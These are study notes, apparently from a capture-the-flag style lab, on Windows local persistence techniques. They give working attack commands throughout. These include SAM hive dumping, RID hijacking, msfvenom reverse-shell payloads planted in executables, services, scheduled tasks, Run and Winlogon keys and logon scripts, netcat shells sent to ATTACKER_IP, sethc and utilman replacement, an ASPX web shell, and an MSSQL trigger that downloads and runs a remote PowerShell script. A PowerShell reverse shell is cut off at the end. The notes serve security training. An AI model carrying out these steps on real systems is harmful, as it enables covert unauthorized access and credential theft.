# Windows Local Persistence

_Source timestamp: Wednesday, October 4, 2023, 6:37 PM_

> Converted from a OneNote Word export into Markdown for rapid cybersecurity reference. Commands and lab steps are preserved from the source notes; use only in authorized lab or assessment environments.

INTRODUCTION

- Re-exploitation isn't always possible: Some unstable exploits might kill the vulnerable process during exploitation, getting you a single shot at some of them.

- Gaining a foothold is hard to reproduce: For example, if you used a phishing campaign to get your first access, repeating it to regain access to a host is simply too much work. Your second campaign might also not be as effective, leaving you with no access to the network.

- The blue team is after you: Any vulnerability used to gain your first access might be patched if your actions get detected. You are in a race against the clock!

## Tampering With Unprivileged Accounts

- Assign Group Memberships

  - using dumped / cracked credentials to add compromised users to the administrator group

  - Backup Operators group is not administrative; allows read/write any file or registry key; allows copying of SAM and SYSTEM hives which reveal password hashes for all users

  - Remote Desktop Users or Remote Management Users

  - command: "net localgroup <group> <user_id> /add

- LocalAccountTokenPolicy strips local accounts of administrative privileges when logging in remotely

  - disable LocalAccountTokenPolicy: "reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1

---------

- Using evil-winrm to connect to windows machine

  - command: "evil-winrm -I <ip> -u <username> -p <password>"

  - show what groups the current user belongs to: "whoami /groups"

  - disable LocalAccountTokenFilterPolicy on the victim machine: " C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1"

- Backup and save important hives from the attacker machine:

*Evil-WinRM* PS C:\> reg save hklm\system system.bak
*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
*Evil-WinRM* PS C:\> download system.bak
*Evil-WinRM* PS C:\> download sam.bak

- Dump passwords and hashes

  - command: "python /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL"

- Perf

### Gives flag 1

------

- Special Privileges and Security Descriptors

  - special groups are assigned specific privileges by the operating system

  - special privileges include capacity to perform a task on the system

  - Reference: https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants

  - command: "secedit /export /cfg config.inf" opens the file for editing" allows adding users to specific privileges

  - commands: "secedit /import /cfg config.inf /db config.sdb" and "secedit /configure /db config.sdb /cfg config.inf" converts the inf file into an .sdb file and loads the configuration back into the system

- Change Security Descriptor associated with the WinRM service (or other service)

  - open WinRM secruity descriptor configuration window in PowerShell: "Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI"

  - allows attacker to add a user to the WinRM service group and the user can connect via WinRM

  - requires the previous change to the LocalAccountTokenFilterPolicy

- Relative ID Hijacking (RID)

  - attacker changes some registry values to making OS think the attacker is the administrator

  - RID is numeric identifier representting the user across the system; Is the last bit of the SID

  - SID allows operating system to identify a user across a domain

  - RID is retrieved by LSASS from the SAM at login and creates an access token

  - tampering with the registry value allows assignment of administraotr access

  - in Windows, defaul Administrator Account is assigned RID=500; users have RID>=1000

  - Assigning RID=500 to unprivileged user requires running REGEDIT as SYSTEM: "PsExec64.exe -I -s regedit"

  - RID is located at: "HKLM\SAM\SAM\Domains\Account\Users\"
--Must know the target account RID in Binary and search for the representation in HEX, but stored in Little Endian notation so bytes appear reversed





  - Replace RID with 500 (0x01F4)

  - attacker account will now log in with administrator RID via RDP

## Backdooring Files

- tampering with files known for regular user interaction

- modifications that plan backdoors, executed whenever the user access the modified files

### Executable Files

- exe files found on the desktop are likely access frequently (exe files or shortcuts)

- use msfvenom to plan payload: "msfvenom -a x64 --platform windows -x <application> -k -p windows/x64/shell_reverse_tcp lhost=<attacker ip> lport=<attacker port> -b "\x00" -f exe -o <newname>.exe"

- resulting app executes reverse_tcp meterpreter palyload without user noticing

### Shortcut Files

- redirect the link target to execute a backdoor when executred

- create new powershell script in C:\Windows\System32\<malicious.ps1>

- starts a reverse shell then opens the legitimate application

"

```text
Start-Process-NoNewWindow "c:\tools\nc64.exe""-e cmd.exe ATTACKER_IP Attacker_port"
C:\Windows\System32\calc.exe
```

"

- Alter the victim shortcut Target field: powershell.exe -WindowStyle hidden <path to malicious script)

back

- force the OS to open a shell whever the user opens a specific file type

- file associates kept in registry: "HKLM\Software\Classes"

- e.g. the .txt file

- "%1" represents name of file to be opened





We can then search for a subkey for the corresponding ProgID (also under HKLM\Software\Classes\), in this case, txtfile, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under shell\open\command where the default command to be run for files with that extension is specified:


- uses powershell script:

```text
---
Start-Process-NoNewWindow "c:\tools\nc64.exe""-e cmd.exe ATTACKER_IP <attacker_port>"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Where $args[0] will contain the name of the file to be opened (rather than %1)

```text
---
```

- Now change the registry key to run the backdoor script in a hidden window



## Abusing Services

### Creating Backdoor Services

### Commands:

```text
sc.exe create <malicous service name> binPath= "net user <username> Passwd123" start= auto
sc.exe start <malicious service name>
```

- Must be a space after each equal sign

- "net user" command executes when services is started and resets <username> password to "Passwd123"

- "start= auto" causes servcie to run without user interaction

- Can use Metasploit to create a reverse shell to be associated with a malicious service

### Commands:

```text
Msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f exe-service -o rev-svc.exe
Sc.exe create <malicious service name> binPath= "C:\windows\rev-svc.exe" start= auto
Sc.exe stgart <malicious service name>
```

### Modifying Existing Services

- disabled services are good candidates for abuse; can be altered without notifying blue team

- Query for disabled / stopped services: "sc.exe query state=all"

- use metasploit to create a reverse shell: "msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<attacker port> -f exe-service -o <malicious service name>.exe "

- upload malicious service to target machine

- alter disabled service: "sc.exe config <service to be abused> binPath= "C:\Windows\<malicious service name>.exe" start= auto obj= "LocalSystem"

- start the malicious service: "sc.exe start <malicious service name>.exe

### Abusing Schedule Tasks

### Task Scheduler

- The most common way to schedule tasks is using the built-in Windows task scheduler.

- The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur.

- From the command line, you can use schtasks to interact with the task scheduler.

- A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).

- Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often, but we don't want to wait too long for this room:

- C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
-Note: Be sure to use THM-TaskBackdoor as the name of your task, or you won't get the flag.

- The previous command will create a "THM-TaskBackdoor" task and execute an nc64 reverse shell back to the attacker.

- The /sc and /mo options indicate that the task should be run every single minute.

- The /ru option indicates that the task will run with SYSTEM privileges.

### Making Our Task Invisible

- Make it invisible to any user in the system by deleting its Security Descriptor (SD).

- The security descriptor is simply an ACL that states which users have access to the scheduled task.

- If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use.

- Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.

- The security descriptors of all scheduled tasks are stored in HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\.

- You will find a registry key for every task, under which a value named "SD" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.

- To hide our task, let's delete the SD value for the "THM-TaskBackdoor" task we created before. To do so, we will use psexec (available in C:\tools) to open Regedit with SYSTEM privileges:

- C:\> c:\tools\pstools\PsExec64.exe -s -i regedit

We will then delete the security descriptor for our task:



If we start an nc listener in our attacker's machine, we should get a shell back after a minute:

## Logon Triggered Persistence

Some actions performed by a user might also be bound to executing specific payloads for persistence.

Windows operating systems present several ways to link payloads with particular interactions.

### Startup folder

- Each user has a folder under C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

- stores executables run when user logs in.

- An attacker achieves persistence just by dropping a payload in there

- Notice that each user will only run whatever is available in their folder.

- If we want to force all users to run a payload while logging in, we can use the folder under C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp in the same way.

- generate a reverse shell payload using msfvenom: msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450-f exe -o revshell.exe

- copy payload to victim machine. You can spawn an http.server with Python3 and use wget on the victim machine to pull your file:

- python3 -m http.server Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)

- Powershell: wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe

- store the payload into the C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp folder to get a shell back for any user logging into the machine.

Command Prompt: copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"

- sign out of your session

- log back via RDP. You should immediately receive a connection back to your attacker's machine.

### Run / RunOnce

- force a user to execute a program on logon via the registry

- Instead of delivering your payload into a specific directory, can use the following registry entries to specify applications to run at logon:

- HKCU\Software\Microsoft\Windows\CurrentVersion\Run

- HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

- HKLM\Software\Microsoft\Windows\CurrentVersion\Run

- HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

- The registry entries under HKCU will only apply to the current user, and those under HKLM will apply to everyone.

- Any program specified under the Run keys will run every time the user logs on.

- Programs specified under the RunOnce keys will only be executed a single time.

- create a new reverse shell with msfvenom: msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451-f exe -o revshell.exe

- transfer to the victim machine

- move it to C:\Windows\

- Command Prompt: C:\> move revshell.exe C:\Windows

- Let's then create a REG_EXPAND_SZ registry entry under HKLM\Software\Microsoft\Windows\CurrentVersion\Run.

- The entry's name can be anything you like, and the value will be the command we want to execute.

- Note: While in a real-world set-up you could use any name for your registry entry, for this task you are required to use MyBackdoor to receive the flag.



After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10-20 seconds).

Winlogon

- Windows component that loads your user profile right after authentication (amongst other things).

- uses some registry keys under HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\ that could be interesting to gain persistence:

- Userinit points to userinit.exe, which is in charge of restoring your user profile preferences.

- shell points to the system's shell, which is usually explorer.exe.



- replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

- creating a shell: msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452-f exe -o revshell.exe

- the shell to victim machine

- copy to any directory: C:\> move revshell.exe C:\Windows

- alter either shell or Userinit in HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\. In this case we will use Userinit, but the procedure with shell is the same.

Note: While both shell and Userinit could be used to achieve persistence in a real-world scenario, to get the flag in this room, you will need to use Userinit.



After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

### Logon scripts

- One of the things userinit.exe does while loading your user profile is to check for an environment variable called UserInitMprLogonScript.

- We can use this environment variable to assign a logon script to a user that will get run when logging into the machine.

- The variable isn't set by default, so we can just create it and assign any script we like.

- Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

- create a reverse shell msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453-f exe -o revshell.exe

- transfer shell to victim machine

- copy the shell to any directory: C:\> move revshell.exe C:\Windows

- To create an environment variable for a user, you can go to its HKCU\Environment in the registry.

- We will use the UserInitMprLogonScript entry to point to our payload so it gets loaded when the users logs in:



Notice that this registry key has no equivalent in HKLM, making your backdoor apply to the current user only.

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

## Backdooring The Login Screen / RDP

If we have physical access to the machine (or RDP in our case), you can backdoor the login screen to access a terminal without having valid credentials for a machine.

### Sticky Keys

- When pressing key combinations like CTRL + ALT + DEL, you can configure Windows to use sticky keys, which allows you to press the buttons of a combination sequentially instead of at the same time.

- if sticky keys are active, you could press and release CTRL, press and release ALT and finally, press and release DEL to achieve the same effect as pressing the CTRL + ALT + DEL combination.

- Toestablish persistence using Sticky Keys, we will abuse a shortcut enabled by default in any Windows installation that allows us to activate Sticky Keys by pressing SHIFT 5 times.

- After inputting the shortcut, we should usually be presented with a screen that looks as follows:



- After pressing SHIFT 5 times, Windows will execute the binary in C:\Windows\System32\sethc.exe.

- If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut.

- Interestingly, we can even do this from the login screen before inputting any credentials.

- A straightforward way to backdoor the login screen consists of replacing sethc.exe with a copy of cmd.exe to spawn a console using the sticky keys shortcut, even from the logging screen.

- To overwrite sethc.exe, we first need to take ownership of the file and grant our current user permission to modify it.

- We can do so with the following commands:

- takeown /f c:\Windows\System32\sethc.exe

- icacls C:\Windows\System32\sethc.exe /grant Administrator:F
-copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
After doing so, lock your session from the start menu:



You should now be able to press SHIFT five times to access a terminal with SYSTEM privileges directly from the login screen:



From your newly obtained terminal, execute C:\flags\flag14.exe to get your flag!

Utilman

- Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:



- When we click the ease of access button on the login screen, it executes C:\Windows\System32\Utilman.exe with SYSTEM privileges.

- If we replace it with a copy of cmd.exe, we can bypass the login screen again.

- To replace utilman.exe:

- takeown /f c:\Windows\System32\utilman.exe

- icacls C:\Windows\System32\utilman.exe /grant Administrator:F

To trigger our terminal, we will lock our screen from the start button:


And finally, proceed to click on the "Ease of Access" button. Since we replaced utilman.exe with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:





From your newly obtained terminal, execute C:\flags\flag15.exe to get your flag!

## Persisting Through Existing Services

- If you don't want to use Windows features to hide a backdoor, you can always profit from any existing service that can be used to run code for you.

- This task will look at how to plant backdoors in a typical web server setup.

- Still, any other application where you have some degree of control on what gets executed should be backdoorable similarly.

### Using Web Shells

- The usual way of achieving persistence in a web server is by uploading a web shell to the web directory.

- Let's start by downloading an ASP.NET web shell. A ready to use web shell is provided [here](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx), but feel free to use any you prefer. Transfer it to the victim machine and move it into the webroot, which by default is located in the C:\inetpub\wwwroot directory:

Command Prompt

```text
C:\> move shell.aspx C:\inetpub\wwwroot\
```

Note: Depending on the way you create/transfer shell.aspx, the permissions in the file may not allow the web server to access it. If you are getting a Permission Denied error while accessing the shell's URL, just grant everyone full permissions on the file to get it working. You can do so with icacls shell.aspx /grant Everyone:F.

We can then run commands from the web server by pointing to the following URL:

http://10.10.119.136/shell.aspx




Use your web shell to execute C:\flags\flag16.exe to get your flag!

While web shells provide a simple way to leave a backdoor on a system, it is usual for blue teams to check file integrity in the web directories. Any change to a file in there will probably trigger an alert.

### Using MSSQL as a Backdoor

- There are several ways to plant backdoors in MSSQL Server installations.

- For now, we will look at one of them that abuses triggers.

- triggers in MSSQL allow you to bind actions to be performed when specific events occur in the database.

- Those events can range from a user logging in up to data being inserted, updated or deleted from a given table.

- For this task, we will create a trigger for any INSERT into the HRDB database.

- Before creating the trigger, we must first reconfigure a few things on the database.

- First, we need to enable the xp_cmdshell stored procedure.

- xp_cmdshell is a stored procedure that is provided by default in any MSSQL installation and allows you to run commands directly in the system's console but comes disabled by default.

- To enable it, let's open Microsoft SQL Server Management Studio 18, available from the start menu.

- When asked for authentication, just use Windows Authentication (the default value), and you will be logged on with the credentials of your current Windows User.

- By default, the local Administrator account will have access to all DBs.

Once logged in, click on the New Query button to open the query editor:



- Run the following SQL sentences to enable the "Advanced Options" in the MSSQL configuration, and proceed to enable xp_cmdshell.

```text
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO
```

```text
sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

- After this, we must ensure that any website accessing the database can run xp_cmdshell.

- By default, only database users with the sysadmin role will be able to do so.

- Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the sa user, which is the default database administrator:

```text
USEmaster
GRANTIMPERSONATE ONLOGIN::sa to[Public];
```

- After all of this, we finally configure a trigger. We start by changing to the HRDB database:

```text
USEHRDB
```

- Our trigger will leverage xp_cmdshell to execute Powershell to download and run a .ps1 file from a web server controlled by the attacker.

- The trigger will be configured to execute whenever an INSERT is made into the Employees table of the HRDB database:

```text
CREATETRIGGER[sql_backdoor]
ONHRDB.dbo.Employees 
:FORINSERTAS
```

```text
EXECUTEASLOGIN ='sa'
EXECmaster..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://<attacker ip>:<attacker_server_port>/evilscript.ps1'')"';
```

- Now that the backdoor is set up, let's create evilscript.ps1 in our attacker's machine, which will contain a Powershell reverse shell:

```text
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);
```

```text
$stream = $client.GetStream();
```

[byte[]]$bytes = 0..65535|%{0};

```text
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
